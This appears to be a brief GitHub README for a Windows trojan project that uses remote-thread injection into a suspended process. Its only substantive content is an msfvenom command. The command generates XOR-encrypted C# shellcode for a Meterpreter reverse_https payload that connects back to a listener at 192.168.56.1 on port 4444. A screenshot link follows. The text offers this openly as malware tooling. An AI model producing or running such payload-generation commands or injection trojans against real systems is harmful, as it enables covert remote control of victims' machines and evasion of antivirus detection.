 # RemoteThreadSuspendedprocessInjection
Trojan Solutionfile

to generate shellcode;
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.56.1 lport=4444 -f csharp --encrypt xor --encrypt-key ARICAHACKON

![Remotethreadsuspendedprocessinjection](https://user-images.githubusercontent.com/121404035/212499326-558b0239-af4c-47e8-9f8a-3e3290b0ca35.png)
